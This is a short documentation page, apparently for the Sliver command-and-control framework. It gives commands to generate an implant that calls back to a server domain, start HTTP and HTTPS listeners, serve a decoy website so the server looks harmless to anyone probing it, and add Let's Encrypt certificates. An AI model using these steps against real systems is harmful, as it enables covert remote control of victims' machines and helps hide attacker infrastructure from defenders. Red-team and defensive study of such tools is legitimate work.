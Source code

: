 
⚠️ __This page is a work in progress__

Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous.

## Generate the Sliver (implant)
Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at example.com, run the following:

```
sliver > generate --http example.com

```

## Start the Listener 

```
sliver > http
```

```
sliver > https
```

## Static Content

Sliver can stand up a website on your HTTP(S) listener in order to make the server look more legitimate. For example, you could put a default IIS index page here and mimic a normal-looking server in case someone comes by snooping. You can manage static content using the `websites` command. 

```
websites --website fake-blog --web-path / --content ./index.html add
```


## SSL/TLS Certificates

The `http` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.

```
sliver > http --domain example.com --lets-encrypt

```
